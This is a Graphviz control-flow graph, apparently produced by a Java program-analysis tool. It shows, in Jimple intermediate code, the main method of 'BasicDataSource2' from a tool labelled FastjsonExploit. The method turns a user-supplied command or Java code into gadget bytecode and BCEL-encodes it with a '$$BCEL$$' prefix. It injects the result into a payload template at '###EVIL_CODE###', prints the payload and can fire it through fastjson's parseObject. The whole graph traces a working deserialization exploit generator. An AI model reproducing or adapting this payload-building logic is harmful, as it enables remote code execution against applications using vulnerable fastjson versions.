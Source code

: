 digraph "unitGraph" {
    "r20 := @this: payloads.BasicDataSource2"
    "r0 := @parameter0: java.lang.String[]"
    "$i0 = lengthof r0"
    "if $i0 == 2 goto $r1 = r0[1]"
    "$i2 = lengthof r0"
    "if $i2 == 3 goto $r1 = r0[1]"
    "$r18 = <java.lang.System: java.io.PrintStream out>"
    "virtualinvoke $r18.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Usage: java -jar FastjsonExploit-[version].jar BasicDataSource2 \\\"[cmd:xxx|code:xxx.java]\\\"\")"
    "return"
    "$r1 = r0[1]"
    "r21 = virtualinvoke $r1.<java.lang.String: java.lang.String trim()>()"
    "$r2 = new util.JarFileReader"
    "specialinvoke $r2.<util.JarFileReader: void <init>()>()"
    "r3 = $r2"
    "r22 = virtualinvoke r3.<util.JarFileReader: java.lang.String read(java.lang.String)>(\"BasicDataSource2.tpl\")"
    "r4 = staticinvoke <gadget.Gadget: byte[] getBasicDataSource1ExpCode(java.lang.String)>(r21)"
    "r23 = staticinvoke <com.sun.org.apache.bcel.internal.classfile.Utility: java.lang.String encode(byte[],boolean)>(r4, 1)"
    "$r5 = new java.lang.StringBuilder"
    "specialinvoke $r5.<java.lang.StringBuilder: void <init>()>()"
    "$r6 = virtualinvoke $r5.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"$$BCEL$$\")"
    "$r7 = virtualinvoke $r6.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r23)"
    "r24 = virtualinvoke $r7.<java.lang.StringBuilder: java.lang.String toString()>()"
    "r25 = virtualinvoke r22.<java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>(\"###EVIL_CODE###\", r24)"
    "$r8 = <java.lang.System: java.io.PrintStream out>"
    "virtualinvoke $r8.<java.io.PrintStream: void println(java.lang.String)>(\"[*] payload build success!\")"
    "$r10 = <java.lang.System: java.io.PrintStream out>"
    "$r9 = new java.lang.StringBuilder"
    "specialinvoke $r9.<java.lang.StringBuilder: void <init>()>()"
    "$r11 = virtualinvoke $r9.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"\n\")"
    "$r12 = virtualinvoke $r11.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r25)"
    "$r13 = virtualinvoke $r12.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"\n\")"
    "$r14 = virtualinvoke $r13.<java.lang.StringBuilder: java.lang.String toString()>()"
    "virtualinvoke $r10.<java.io.PrintStream: void println(java.lang.String)>($r14)"
    "$i1 = lengthof r0"
    "if $i1 != 3 goto (branch)"
    "$r15 = r0[2]"
    "$z0 = virtualinvoke $r15.<java.lang.String: boolean equals(java.lang.Object)>(\"-exec\")"
    "if $z0 == 0 goto (branch)"
    "$r16 = <java.lang.System: java.io.PrintStream out>"
    "virtualinvoke $r16.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Try local parsing\")"
    "staticinvoke <com.alibaba.fastjson.JSON: com.alibaba.fastjson.JSONObject parseObject(java.lang.String)>(r25)"
    "goto [?= return]"
    "$r19 := @caughtexception"
    "r26 = $r19"
    "virtualinvoke r26.<java.lang.Exception: void printStackTrace()>()"
    "r20 := @this: payloads.BasicDataSource2"->"r0 := @parameter0: java.lang.String[]";
    "r0 := @parameter0: java.lang.String[]"->"$i0 = lengthof r0";
    "$i0 = lengthof r0"->"if $i0 == 2 goto $r1 = r0[1]";
    "if $i0 == 2 goto $r1 = r0[1]"->"$i2 = lengthof r0";
    "if $i0 == 2 goto $r1 = r0[1]"->"$r1 = r0[1]";
    "if $i0 == 2 goto $r1 = r0[1]"->"$r19 := @caughtexception";
    "$i2 = lengthof r0"->"if $i2 == 3 goto $r1 = r0[1]";
    "if $i2 == 3 goto $r1 = r0[1]"->"$r18 = <java.lang.System: java.io.PrintStream out>";
    "if $i2 == 3 goto $r1 = r0[1]"->"$r1 = r0[1]";
    "if $i2 == 3 goto $r1 = r0[1]"->"$r19 := @caughtexception";
    "$r18 = <java.lang.System: java.io.PrintStream out>"->"virtualinvoke $r18.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Usage: java -jar FastjsonExploit-[version].jar BasicDataSource2 \\\"[cmd:xxx|code:xxx.java]\\\"\")";
    "virtualinvoke $r18.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Usage: java -jar FastjsonExploit-[version].jar BasicDataSource2 \\\"[cmd:xxx|code:xxx.java]\\\"\")"->"return";
    "$r1 = r0[1]"->"r21 = virtualinvoke $r1.<java.lang.String: java.lang.String trim()>()";
    "$r1 = r0[1]"->"$r19 := @caughtexception";
    "r21 = virtualinvoke $r1.<java.lang.String: java.lang.String trim()>()"->"$r2 = new util.JarFileReader";
    "r21 = virtualinvoke $r1.<java.lang.String: java.lang.String trim()>()"->"$r19 := @caughtexception";
    "$r2 = new util.JarFileReader"->"specialinvoke $r2.<util.JarFileReader: void <init>()>()";
    "$r2 = new util.JarFileReader"->"$r19 := @caughtexception";
    "specialinvoke $r2.<util.JarFileReader: void <init>()>()"->"r3 = $r2";
    "specialinvoke $r2.<util.JarFileReader: void <init>()>()"->"$r19 := @caughtexception";
    "r3 = $r2"->"r22 = virtualinvoke r3.<util.JarFileReader: java.lang.String read(java.lang.String)>(\"BasicDataSource2.tpl\")";
    "r3 = $r2"->"$r19 := @caughtexception";
    "r22 = virtualinvoke r3.<util.JarFileReader: java.lang.String read(java.lang.String)>(\"BasicDataSource2.tpl\")"->"r4 = staticinvoke <gadget.Gadget: byte[] getBasicDataSource1ExpCode(java.lang.String)>(r21)";
    "r22 = virtualinvoke r3.<util.JarFileReader: java.lang.String read(java.lang.String)>(\"BasicDataSource2.tpl\")"->"$r19 := @caughtexception";
    "r4 = staticinvoke <gadget.Gadget: byte[] getBasicDataSource1ExpCode(java.lang.String)>(r21)"->"r23 = staticinvoke <com.sun.org.apache.bcel.internal.classfile.Utility: java.lang.String encode(byte[],boolean)>(r4, 1)";
    "r4 = staticinvoke <gadget.Gadget: byte[] getBasicDataSource1ExpCode(java.lang.String)>(r21)"->"$r19 := @caughtexception";
    "r23 = staticinvoke <com.sun.org.apache.bcel.internal.classfile.Utility: java.lang.String encode(byte[],boolean)>(r4, 1)"->"$r5 = new java.lang.StringBuilder";
    "r23 = staticinvoke <com.sun.org.apache.bcel.internal.classfile.Utility: java.lang.String encode(byte[],boolean)>(r4, 1)"->"$r19 := @caughtexception";
    "$r5 = new java.lang.StringBuilder"->"specialinvoke $r5.<java.lang.StringBuilder: void <init>()>()";
    "$r5 = new java.lang.StringBuilder"->"$r19 := @caughtexception";
    "specialinvoke $r5.<java.lang.StringBuilder: void <init>()>()"->"$r6 = virtualinvoke $r5.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"$$BCEL$$\")";
    "specialinvoke $r5.<java.lang.StringBuilder: void <init>()>()"->"$r19 := @caughtexception";
    "$r6 = virtualinvoke $r5.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"$$BCEL$$\")"->"$r7 = virtualinvoke $r6.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r23)";
    "$r6 = virtualinvoke $r5.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"$$BCEL$$\")"->"$r19 := @caughtexception";
    "$r7 = virtualinvoke $r6.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r23)"->"r24 = virtualinvoke $r7.<java.lang.StringBuilder: java.lang.String toString()>()";
    "$r7 = virtualinvoke $r6.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r23)"->"$r19 := @caughtexception";
    "r24 = virtualinvoke $r7.<java.lang.StringBuilder: java.lang.String toString()>()"->"r25 = virtualinvoke r22.<java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>(\"###EVIL_CODE###\", r24)";
    "r24 = virtualinvoke $r7.<java.lang.StringBuilder: java.lang.String toString()>()"->"$r19 := @caughtexception";
    "r25 = virtualinvoke r22.<java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>(\"###EVIL_CODE###\", r24)"->"$r8 = <java.lang.System: java.io.PrintStream out>";
    "r25 = virtualinvoke r22.<java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>(\"###EVIL_CODE###\", r24)"->"$r19 := @caughtexception";
    "$r8 = <java.lang.System: java.io.PrintStream out>"->"virtualinvoke $r8.<java.io.PrintStream: void println(java.lang.String)>(\"[*] payload build success!\")";
    "$r8 = <java.lang.System: java.io.PrintStream out>"->"$r19 := @caughtexception";
    "virtualinvoke $r8.<java.io.PrintStream: void println(java.lang.String)>(\"[*] payload build success!\")"->"$r10 = <java.lang.System: java.io.PrintStream out>";
    "virtualinvoke $r8.<java.io.PrintStream: void println(java.lang.String)>(\"[*] payload build success!\")"->"$r19 := @caughtexception";
    "$r10 = <java.lang.System: java.io.PrintStream out>"->"$r9 = new java.lang.StringBuilder";
    "$r10 = <java.lang.System: java.io.PrintStream out>"->"$r19 := @caughtexception";
    "$r9 = new java.lang.StringBuilder"->"specialinvoke $r9.<java.lang.StringBuilder: void <init>()>()";
    "$r9 = new java.lang.StringBuilder"->"$r19 := @caughtexception";
    "specialinvoke $r9.<java.lang.StringBuilder: void <init>()>()"->"$r11 = virtualinvoke $r9.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"\n\")";
    "specialinvoke $r9.<java.lang.StringBuilder: void <init>()>()"->"$r19 := @caughtexception";
    "$r11 = virtualinvoke $r9.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"\n\")"->"$r12 = virtualinvoke $r11.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r25)";
    "$r11 = virtualinvoke $r9.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"\n\")"->"$r19 := @caughtexception";
    "$r12 = virtualinvoke $r11.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r25)"->"$r13 = virtualinvoke $r12.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"\n\")";
    "$r12 = virtualinvoke $r11.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r25)"->"$r19 := @caughtexception";
    "$r13 = virtualinvoke $r12.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"\n\")"->"$r14 = virtualinvoke $r13.<java.lang.StringBuilder: java.lang.String toString()>()";
    "$r13 = virtualinvoke $r12.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"\n\")"->"$r19 := @caughtexception";
    "$r14 = virtualinvoke $r13.<java.lang.StringBuilder: java.lang.String toString()>()"->"virtualinvoke $r10.<java.io.PrintStream: void println(java.lang.String)>($r14)";
    "$r14 = virtualinvoke $r13.<java.lang.StringBuilder: java.lang.String toString()>()"->"$r19 := @caughtexception";
    "virtualinvoke $r10.<java.io.PrintStream: void println(java.lang.String)>($r14)"->"$i1 = lengthof r0";
    "virtualinvoke $r10.<java.io.PrintStream: void println(java.lang.String)>($r14)"->"$r19 := @caughtexception";
    "$i1 = lengthof r0"->"if $i1 != 3 goto (branch)";
    "$i1 = lengthof r0"->"$r19 := @caughtexception";
    "if $i1 != 3 goto (branch)"->"$r15 = r0[2]";
    "if $i1 != 3 goto (branch)"->"goto [?= return]";
    "if $i1 != 3 goto (branch)"->"$r19 := @caughtexception";
    "$r15 = r0[2]"->"$z0 = virtualinvoke $r15.<java.lang.String: boolean equals(java.lang.Object)>(\"-exec\")";
    "$r15 = r0[2]"->"$r19 := @caughtexception";
    "$z0 = virtualinvoke $r15.<java.lang.String: boolean equals(java.lang.Object)>(\"-exec\")"->"if $z0 == 0 goto (branch)";
    "$z0 = virtualinvoke $r15.<java.lang.String: boolean equals(java.lang.Object)>(\"-exec\")"->"$r19 := @caughtexception";
    "if $z0 == 0 goto (branch)"->"$r16 = <java.lang.System: java.io.PrintStream out>";
    "if $z0 == 0 goto (branch)"->"goto [?= return]";
    "if $z0 == 0 goto (branch)"->"$r19 := @caughtexception";
    "$r16 = <java.lang.System: java.io.PrintStream out>"->"virtualinvoke $r16.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Try local parsing\")";
    "$r16 = <java.lang.System: java.io.PrintStream out>"->"$r19 := @caughtexception";
    "virtualinvoke $r16.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Try local parsing\")"->"staticinvoke <com.alibaba.fastjson.JSON: com.alibaba.fastjson.JSONObject parseObject(java.lang.String)>(r25)";
    "virtualinvoke $r16.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Try local parsing\")"->"$r19 := @caughtexception";
    "staticinvoke <com.alibaba.fastjson.JSON: com.alibaba.fastjson.JSONObject parseObject(java.lang.String)>(r25)"->"goto [?= return]";
    "staticinvoke <com.alibaba.fastjson.JSON: com.alibaba.fastjson.JSONObject parseObject(java.lang.String)>(r25)"->"$r19 := @caughtexception";
    "goto [?= return]"->"return";
    "$r19 := @caughtexception"->"r26 = $r19";
    "r26 = $r19"->"virtualinvoke r26.<java.lang.Exception: void printStackTrace()>()";
    "virtualinvoke r26.<java.lang.Exception: void printStackTrace()>()"->"return";
}
